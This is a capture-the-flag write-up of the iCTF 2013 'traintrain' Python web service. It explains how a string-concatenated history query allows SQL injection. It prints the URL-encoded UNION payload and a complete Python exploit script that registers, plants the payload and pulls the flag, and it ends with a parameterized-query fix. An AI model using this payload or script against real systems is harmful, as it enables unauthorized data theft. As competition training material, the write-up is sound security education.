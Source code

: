 ```yaml
---
title: iCTF 2013 traintrain writeup
author: zTrix
layout: post
permalink: /ictf-2013-traintrain-writeup/
categories:
  - Uncategorized
---
```

Traintrain is a web system written in python.

There is a register/login page, where we can login using username/password from traintrain.ini. Then a solution page showed up, asks for a solution. Nothing special so far.

Under the service dir, there is a sqlite3 db file detected using file commmand. Open it and execute .dump, we can get the table and data, here is a snippet:

    CREATE TABLE users (username text, password text, authorization text, session text, history text, score int, assignment text, solution text);
    INSERT INTO users VALUES('johndoe','3858f62230ac3c915f300c664312c63f','ab6eff381fffea763a81b73',NULL,NULL,NULL,NULL,NULL);
    INSERT INTO users VALUES('janedoe','96948aad3fcae80c08a35c9b5958cd89','ab56a388299ef6deab12552ccc1',NULL,NULL,NULL,NULL,NULL);
    INSERT INTO users VALUES('aledivlew','fcccdf1344ad3078c2fbec2194996a08','FLGeFrCu4pF4ipCF','0d1444c3861cf373e36b24e6b5a5f785','/',NULL,NULL,NULL);
    

So the flag should be the authorization text of some users.

The source codes are not presented in the service dir. So we decompiled the python bytecode using [uncompyle2][1]. You can find the source code [here][2].

The code is a bit complex. We read through the code thoroughly, even the generate and calculate logic. The basic idea is injection, but We come up with several ideas turned out to be useless, because the code is well protected. After some more review, we noticed that there is a function called history, and the history sql is the only one built by string concatenation rather than sqlite library protected construction. So we decided to do sql injection here.

    query = "select username, score from users where history LIKE '%%%s%%' and not session='%s'" % (history, session)
    

The session variable is well checked and hard to inject, but we can control history variable, since the url path will be joined using &#8216;:&#8217; as separator to form the history string, e.g. &#8220;/:/solution&#8221;.

Then we carefully construct a path:

%\&#8217; or 1=1 union select username, authorization from users where 1=1 or \&#8217;:/solution%\&#8217;=\&#8217;

which will be urlencoded to

%25\&#8217;%20or%201%3D1%20union%20select%20username%2C%20authorization%20from%20users%20where%201%3D1%20or%20\&#8217;%3A%2Fsolution%25\&#8217;%3D\&#8217;

Register a user and login to get a session, hit this urlpath, then it will be stored as the history string. After that, we hit &#8220;/solution&#8221; again to trigger the injected sql, and the flag string will be returned in html. So just parse out the flag and return!

Here is the exploit code:

    class Exploit():
    
      def tt(self, ip, port, flag_id):
        import httplib, time, urllib, random
    
        conn = httplib.HTTPConnection(ip, port)
        uu = random.choice('asfaasdf') + random.choice('asfaasdf') + random.choice('asfaasdf') + random.choice('asfaasdf')
        params = urllib.urlencode({'username': uu, 'password': uu, 'authorization': uu})
        headers = {"Content-type": "application/x-www-form-urlencoded"}
        conn.request("POST", "/register", params, headers)
        response = conn.getresponse()
        header = response.getheaders()
        data = response.read()
        conn.close()
    
        conn = httplib.HTTPConnection(ip, port)
        conn.request('POST', "/login", urllib.urlencode({'username': uu, 'password': uu}), headers)
        response = conn.getresponse()
        header = response.getheaders()
        data = response.read()
        for k, v in header:
            if k.lower() == 'set-cookie':
                cookie = v
        #print cookie
        conn.close()
        #print '--python cookie', cookie
    
        sql = "%25\'%20or%201%3D1%20union%20select%20username%2C%20authorization%20from%20users%20where%201%3D1%20or%20\'%3A%2Fsolution%25\'%3D\'"
        headers['cookie'] = cookie
        conn = httplib.HTTPConnection(ip, port)
        conn.request('POST', "/" + sql, urllib.urlencode({'username': uu, 'password': uu}), headers)
        response = conn.getresponse()
        header = response.getheaders()
        data = response.read()
        conn.close()
        #print '--insert', len(data), data
    
        conn = httplib.HTTPConnection(ip, port)
        conn.request('POST', "/solution", urllib.urlencode({'solution': '1', 'assignment': '2'}), headers)
        response = conn.getresponse()
        header = response.getheaders()
        data = response.read()
        #print '--result', len(data), data
        conn.close()
    
        import re
        mat = re.findall('<tr><td>(.*?)</td>.*?<td>(.*?)</td></tr>', data)
    
        flag = ''
        #print mat
        for item in mat:
            if item[1].startswith('FLG'):
                flag = item[1]
            if item[0] == flag_id and item[1] != 'None':
                return item[1]
        return flag
    
      def execute(self, ip, port, flag_id):
    
        # Put your awesomeness here. You are free to import/use whatever
        # standard Python library you want.
    
        # Your exploit gets as parameters the IP/PORT of the service to
        # attack. The IP is a string, the PORT is an integer.
    
        # For some services, the "flag_id" parameter will be provided:
        # sometimes, this is needed to specify which flag you need to
        # steal (in case there are many on the server). If you feel you
        # don't need to use the "flag_id" parameter, just ignore it.
        # Still, your execute() method will always receive the "flag_id"
        # parameter.
    
        self.flag = self.tt(ip, port, flag_id);
    
      def result(self):
        return {'FLAG' : self.flag }
    

Have known above, we can easily fix the exploit by replace the string concatenation of the sql by sqlite library construction.

Many thanks to Chao Liu who showed expert level hacking skills working with me on this problem.

 [1]: https://github.com/wibiti/uncompyle2
 [2]: https://gist.github.com/zTrix/5230705